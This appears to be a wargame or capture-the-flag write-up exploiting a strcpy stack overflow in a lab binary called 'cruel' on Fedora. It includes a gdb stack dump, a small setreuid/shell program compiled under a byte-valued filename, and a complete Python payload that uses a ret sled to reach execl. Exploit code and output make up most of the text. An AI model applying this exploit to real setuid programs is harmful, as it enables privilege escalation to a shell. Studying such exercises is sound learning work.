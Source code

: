 # Vulnerability
```c
char buffer[256];
strcpy(buffer, argv[1]);
```
This program uses strcpy function that does not check boundary.

# Exploitation
I found not changing value on stack, so I will use ret sled to get there and call execl function.

In stack, 0x008caff4 does not changed and the next 4 bytes(0x007a2ca0)'s value is '0x00':
```
(gdb) x/32x $esp
0xbfd859ec:	0x007bad00	0x00000002	0xbfd85a74	0xbfd85a80
0xbfd859fc:	0xbfd85a30	0x00795898	0x007a3878	0xb7f88690
0xbfd85a0c:	0x00000001	0x008caff4	0x007a2ca0	0x08048454

(gdb) x/x 0x008caff4
0x8caff4:	0x008cad3c
(gdb) x/x 0x007a2ca0
0x7a2ca0 <_rtld_local_ro>:	0x00000000
```

Make a simple backdoor program named as `0x008caff4`'s value(0x008cad3c):
```c
[dark_stone@Fedora_2ndFloor ~]$ cat ./backdoor.c 
#include <stdio.h>
int main(void) {
	setreuid(geteuid(), geteuid());
	system("/bin/sh");
}
[dark_stone@Fedora_2ndFloor ~]$ gcc -o ./`python -c 'print "\x3c\xad\x8c"'` ./backdoor.c
```

The payload will be:
```
--------------------------------------------
| A * 260 | RET SLED * 7 | execl's address |
--------------------------------------------
```
# Payload
```python
import os
from struct import *

target = "/home/dark_stone/cruel"

payload = ""
payload += "A"*260
payload += "\x51\x84\x04\x08" * 7 # ret sled
payload += "\x68\x2d\x83" # execl's address

os.execv(target, [target, payload])
```
